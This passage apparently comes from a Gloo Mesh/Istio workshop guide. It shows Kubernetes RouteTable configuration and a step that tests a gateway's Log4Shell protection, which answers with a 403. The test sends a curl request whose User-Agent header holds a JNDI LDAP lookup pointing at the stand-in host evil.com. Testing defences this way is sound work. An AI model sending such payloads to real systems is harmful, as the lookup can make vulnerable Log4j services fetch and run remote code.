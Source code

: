 ```bash
              expose: "true"
            workspace: httpbin
        sortMethod: ROUTE_SPECIFICITY
EOF
```



Run the following command to simulate an attack:

```bash
curl -H "User-Agent: \${jndi:ldap://evil.com/x}" -k "https://cluster1-httpbin.example.com/get" -i
```

The request should be rejected:

```,nocopy
HTTP/2 403 
content-length: 27
content-type: text/plain
date: Tue, 05 Apr 2022 10:20:06 GMT
server: istio-envoy

Log4Shell malicious payload
```



Let's apply the original `RouteTable` yaml:

```bash
kubectl apply --context ${CLUSTER1} -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: main-bookinfo
  namespace: istio-gateways
spec:
  hosts:
    - cluster1-bookinfo.example.com
    - cluster2-bookinfo.example.com
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: root
      matchers:
      - uri:
          prefix: /
      delegate:
```